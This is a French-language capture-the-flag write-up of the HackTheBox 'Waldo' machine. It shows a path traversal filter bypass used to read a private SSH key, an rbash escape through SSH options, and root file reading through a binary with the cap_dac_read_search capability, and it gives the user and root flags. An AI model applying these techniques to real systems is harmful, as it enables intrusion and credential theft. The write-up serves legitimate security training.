 ```yaml
---
title: Solution du CTF Waldo de HackTheBox
tags: [CTF,HackTheBox]
---
```


Il était où hein le Charlie ?
-----------------------------

Un port SSH, un port HTTP... difficile de faire plus classique comme début.  

Sur la page d'index un système de gestion de listes :  

![Waldo CTF HackTheBox list manager](/assets/img/htb/waldo_list_manager.png)

En ouvrant les dev-tools on trouve des requêtes XHR comme cette requête vers *dirRead.php* pour lister les listes et qui sent bon le path traversal :  

![Waldo CTF HackTheBox list manager XHR](/assets/img/htb/waldo_xhr.png)

Si on accède à une liste c'est *fileRead.php* qui est appelé. Même pressentiment :)  

Le plus pratique est d'intercepter la requête à travers [Zed Attack Proxy](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project) pour pouvoir ensuite l'éditer et la retransmettre.  

On remarque vite une particularité si on tente de remonter dans le path :  

```plain
path= => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
path=. => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
path=.. => [".","..","html","localhost"]
path=../.. => [".","..","html","localhost"]
path=../../ => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

Au boût d'un moment on revient au répertoire courant, il y a donc un *str\_replace()* qui doit corriger notre path.  

Si on part de l'idée que le filtre est sur ../../ alors on peut le précéder de .. et ajouter un / final ainsi la suite de caractères ..../..// correspondra à une remontée dans l’arborescence :  

```plain
path=..../..//..../..// => [".","..","cache","empty","lib","local","lock","log","opt","run","spool","tmp","www"]
path=..../..//..../..//..../..// => [".","..",".dockerenv","bin","dev","etc","home","lib","media","mnt","proc","root","run","sbin","srv","sys","tmp","usr","var"]
```

On se balade jusqu'à ce dossier :  

```plain
path=..../..//..../..//..../..//home/nobody
[".","..",".ash_history",".ssh",".viminfo","l.sh","user.txt"]
```

Et dans le dossier *.ssh* on voit un fichier *.monitor* qui s'avère être... la clé privée SSH :)  

Pour obtenir le contenu la même faille est présente sur l'autre script ce qui nous amène à cette requête :  

```plain
POST http://10.10.10.87/fileRead.php HTTP/1.1
file=..../..//..../..//..../..//home/nobody/.ssh/.monitor
```

Free Charlie
------------

```plain
$ ssh -i waldo.key nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

Hmmm Charlie semble être enfermé dans un environnement *Docker* (*Alpine* est une version de Linux souvent utilisée dans ces envs parce que très allégée).  

Cela est très vite confirmé avec les interfaces réseau :  

```plain
docker0   Link encap:Ethernet  HWaddr 02:42:D3:28:1C:FD
          inet addr:172.17.0.1  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
      RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```

L'accès est suffisant pour avoir le flag utilisateur (*32768bcd7513275e085fd4e7b63e9d24*).  

Prends la clé ! Sors sors !
---------------------------

Dans la liste des *authorized\_keys* de notre compte *nobody* se trouve une référence à un certain *monitor* :  

```plain
ssh-rsa AAAAB3NzaC1---snip---Y4jBHvf monitor@waldo
```

Si on réutilise la clé pour accéder au serveur SSH depuis le docker :  

![Waldo CTF HackTheBox monitor ssh account ascii art](/assets/img/htb/waldo_ascii_art.png)

On peut facilement bypasser le lancement du rbash (un bash restreint) en spécifiant le shell que l'on souhaite à SSH (on utilisera ici les options -t bash --noprofile).  

On obtient un shell à première vue limitée mais il s'agit en réalité du PATH peu remplis, ce qui est vite corrigé :  

```plain
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
monitor@waldo:~$ export PATH=/bin:/usr/bin:/sbin:/usr/sbin:/usr/local/bin:/usr/local/sbin:$PATH
```

Say Cap-tain, Say wut ?
-----------------------

Après avoir tourné un moment à chercher un chemin classique d'exploitation il est temps de se pencher sur les fichiers présents dans le dossier app-dev.  

On trouve un exécutable *logMonitor* à l'usage suivant :  

```plain
Usage: logMonitor [-aAbdDfhklmsw] [--help]
```

Contrairement à ce qu'on pouvait espérer l'option *--help* ne donne pas d'aide détaillée mais qu'importe puisque le code C est aussi présent :  

```c
{"auth", no_argument, 0, 'a'},
{"alternatives", no_argument, 0, 'A'},
{"btmp", no_argument, 0, 'b'},
{"dpkg", no_argument, 0, 'd'},
{"daemon", no_argument, 0, 'D'},
{"faillog", no_argument, 0, 'f'},
{"help", no_argument, 0, 'h'},
{"kern", no_argument, 0, 'k'},
{"lastlog", no_argument, 0, 'l'},
{"messages", no_argument, 0, 'm'},
{"syslog", no_argument, 0, 's'},
{"wtmp", no_argument, 0, 'w'},
```

En fonction de l'option choisie un path hardcodé est recopié vers une variable *filename*. Une fonction *printFile* est ensuite appelée qui affiche le fichier demandé via une boucle avec *fgetc* et *printf* (beurk).  

Parmi les paths correspondantq aux options on trouve */var/log/auth.log*, */var/log/faillog*, */var/log/wtmp*, etc autant dire des fichiers généralement pas accessibles à tout le monde.  

D'ailleurs si on lance *logMonitor -f* pour obtenir le *faillog* on obtient le message d'erreur *Cannot open file*.  

Le binaire n'est pas setuid et sudo n'est pas installé... logique quoi.  

En revanche une fois dans le sous dossier *v0.1* le binaire *logMonitor-0.1* parvient à lire le fichier... avec les mêmes observations (il n'est pas setuid) so what the fuck !?  

On fait un *getcap* dessus pour lister ses [capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html) et surprise :  

```plain
logMonitor-0.1 = cap_dac_read_search+ei
```

Ce programme a le super-pouvoir d'accéder à n'importe quel fichier du système en se moquant bien des permissions.  

Mais après avoir bien épluché le code C ce dernier ne semble pas faillible. Je ne suis pas au point sur les détails de fonctionnement des *capabilities* alors dans le doute j'ai tenté de hooker l'appel à *puts()* dans le code (via un *LD\_PRELOAD*) mais sans trop de surprises ça n'a pas été pris en compte.  

Finalement il fallait faire un gros *getcap* sur le disque pour trouver un autre binaire avec les même super-pouvoirs :  

```plain
monitor@waldo:~/app-dev$ getcap -r / 2> /dev/null
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei

monitor@waldo:~/app-dev$ tac /root/root.txt
8fb67c84418be6e45fbd348fd4584f6c
```


*Published December 15 2018 at 19:09*
